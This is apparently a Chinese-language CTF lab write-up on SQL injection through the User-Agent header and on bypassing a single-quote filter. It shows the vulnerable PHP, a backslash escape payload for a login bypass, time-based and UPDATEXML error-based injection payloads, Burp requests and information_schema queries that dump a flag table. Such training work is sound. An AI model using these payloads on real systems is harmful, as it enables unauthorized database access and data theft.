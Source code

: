 ```yaml
---
layout: post
title: SQL注入之 head 注入与引号绕过
categories: [安全, SQL注入]
description: SQL注入之 head 注入与引号绕过
keywords: SQL注入
---
```


# SQL注入之 head 注入与引号绕过

> http://injectx1.lab.aqlab.cn:81/Pass-07/index.php?action=show_codea

## 0x00 先说结论

1. 使用 `-- gg` 比 `--+` 更通用，GET 中 `+` 会转为 `空格` 但 POST 中不会
2. 其他而言, `HEAD` 注入与参数注入利用方式差别不大。
3. 目前看来 `INSERT` 最难利用的是在判断 字段 **插入位置和值对应类型** 。
    + 使用 `updatexml()` 函数报错 xpath
    + 由于 0x7e 是 ~ ，不属于xpath语法格式， 因此报出xpath语法错误。

## 0x01 分析代码

```php
$username = $_POST['username'];
$password = $_POST['password'];
// 获取 useragent
$uagent = $_SERVER['HTTP_USER_AGENT']; 
$jc = $username.$password; // 这里很重要 @1
$sql = 'select *from user where username =\''.$username.'\' and password=\''.$password.'\'';
// 检测单引号，有则报错 // @1 检查的是 username.password 的组合，其中不能出现 '
if(preg_match('/.*\'.*/',$jc)!== 0){die('为了网站安全性，禁止输入某些特定符号');}
mysqli_select_db($conn,'****');//不想告诉你库名
// 注入点 1
$result = mysqli_query($conn,$sql);
$row = mysqli_fetch_array($result);
$uname = $row['username'];
$passwd = $row['password'];
if($row){
// 注入点2 : 要求能查询到用户信息
$Insql = "INSERT INTO uagent (`uagent`,`username`) VALUES ('$uagent','$uname')";
$result1 = mysqli_query($conn,$Insql);
print_r(mysqli_error($conn));
echo '成功登录';
```

**burpsuite repeat**

```http
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 51
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=123&password=123&submit=%E7%99%BB%E5%BD%95
```

## 0x02 注入

### 0x02.1 判断登录账户，尝试绕过单引号

**1. 使用双 urlencoded**， 并通过时间盲注判断是否成功
```sql
username=1%2527 or if(2>1,sleep(3),null) --+
```

> 失败

**利用2个变量的闭合4个单引号。 使用 反斜线 \ 逃脱**

```sql
-- payload
-- username=admin\&password= or 1=1 -- qwe
```

![excape-quote-login-success.png](/images/post/2020/12/12/excape-quote-login-success.png)

> **注意**:

1. 变量注入不仅仅是一个位置的事情， 在多变量时，遇到反制可以混合利用。
2. `POST` 注入时， `+` 不会默认转换成 `空格`， 因此在注释语句时， 需要使用 `-- gg`。 后者使用场景更为通用。

### 0x02.2 利用 User-Agent 注入

1. **User-Agent** 或者说 **Head** 注入， 更多对应的语句是 **Insert** 或者 **Update** 这类修改语句。且这类语句执行不会有明显的执行。 利用方式常见的有一下两种
    1. **报错注入** : 使用  `updatexml()` 函数强制报错返回信息。
    2. **时间盲注**


#### 猜测利用方式

```sql
-- 猜测原始语句
INSERT INTO uagent (`uagent`,`username`) VALUES ('$uagent','$uname');
UPDATE uagent SET uagent='$uagent' where username='$username';
```

1. `mock-ver01` 模拟 : 构造 SQL 语句测试， 如果插入 `VALUES` 数量不等， 则会出现 SQL 语句错误。
2. `mock-ver02` 模拟 : 所有字段猜测正确执行成功， 可以执行。
    + **注意** 但在实际测试时。 由于时两条语句。 sleep(10) 被跳过了。 因此，或许只能在 一条语句中。
3. `mock-ver03` 模拟 : 字段数量正确，但 `id` 数据类型有误，SQL 通不过， 执行被跳过。


```sql 
-- mock-ver01
INSERT INTO uagent (`uagent`,`username`) VALUES ('Mozilla 5.0' or (select sleep(5))) -- 1 ,'$uname');


-- mock-ver02
INSERT INTO uagent(`username`,`uagent`) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

-- mock-ver03
INSERT INTO uagent(`username`,id) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

```

![mysql-uagent-insert-sql-mock-error-column-not-match.png](/images/post/2020/12/12/mysql-uagent-insert-sql-mock-error-column-not-match.png)


如果原语句是 Update 语句。 

1. `mock sql ver01` 模拟: 虽然可以利用，但是由于 where 语句被屏蔽了导致所有数据被更新。 **三年起步, 三年起步**
2. `mock sql ver01` 模拟: 在 UPDATE 语句上更新 `Where` 条件屏蔽更新。 **狗命要紧**

```sql
-- mock sql ver01
UPDATE uagent SET uagent='Mozila 5.0' ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

-- mock sql ver02
UPDATE uagent SET uagent='Mozila 5.0' WHERE 2<1 ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

```

### 0x02.3 使用 updatexml() 进行报错利用

在本地 mock 语句。 与上面预测的一样， 仅在一条 `Insert` 语句中， 可以使用 ** UPDATEXML 报错注入**。

payload: `mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg `

```sql
INSERT INTO uagent (`uagent`,`username`) VALUES ('mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg ','$username') 

-- 报错信息 1105 - XPATH syntax error: '~zkaq~', Time: 0.002000s
```

![updatexml-error-based-mock.png](/images/post/2020/12/12/updatexml-error-based-mock.png)


#### 利用

打开 `burpsuite` 抓包利用, 为了方便查看， 此处显示代码 `highlight` 为 `bash`, 并在 利用处使用 **注释及缩进** 高亮处理

+ ua: 错误报错出数据
+ form: 越过账户登录

```bash
POST /Pass-07/index.php HTTP/1.1
Host: injectx1.lab.aqlab.cn:81
Content-Length: 36
Cache-Control: max-age=0
Origin: http://injectx1.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
    # User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://injectx1.lab.aqlab.cn:81/Pass-07/index.php?action=show_code
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close
    # username=\&password= or 1=1 ;  -- gg
```

![ua-inject-success.png](/images/post/2020/12/12/ua-inject-success.png)

1. UPDATEXML() 仅支持常量。 `Only constant XPATH queries are supported`, 因此简单的时间盲注就不可用了。  
    `UPDATEXML(1,CONCAT(0x7e,   (select sleep(10))     ,0x7e),1))`
2. 由于 **布尔盲注** 返回结果是 `1/0` ， `XPATH syntax error: '~1~'` 因此可以使用。
    `UPDATEXML(1,CONCAT(0x7e,   (select 1=1)     ,0x7e),1))`


## 0x03 找 FLAG

探测完了可利用点， 又是明文报错信息。 FLAG 就好找了。

以下省略完成 BURPSUITE 文件， 仅完善可以利用语句替代 ${SQL} 位置。

```bash
User-Agent: mozilla' , UPDATEXML(1,CONCAT(0x7e, (    ${SQL}     ) ,0x7e),1))  -- gg
```


### 0x03.1 **探测表**

```sql
-- 查看当前库所有表
select group_concat(table_name) from information_schema.tables where table_schema=database() 

-- result: flag_head,ip,refer,uagent,user
```

还是比较明显了 `flag_head` 就是我们要找的。

## 0x03.2 **探测字段**

```sql
-- 查询 flag_head 字段名
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head'
-- Id,flag_h1

-- 查询列数量
select count(*) from flag_head
-- result: 3

-- 查询字段值
select group_concat(flag_h1) from flag_head 
-- zKaQ-YourHd,zKaQ-Refer,zKaQ-ipi
```

解题完成


## 0xGG 引用资料

+ [通过两道CTF题学习过滤单引号的SQL注入](https://blog.csdn.net/qq_42181428/article/details/105061424)
+ [sql报错注入： extractvalue 、 updatexml 报错原理](https://developer.aliyun.com/article/692723)
+ [SQL注入实战之报错注入篇 - 0x7e 是什么](https://www.cnblogs.com/c1047509362/p/12806297.html)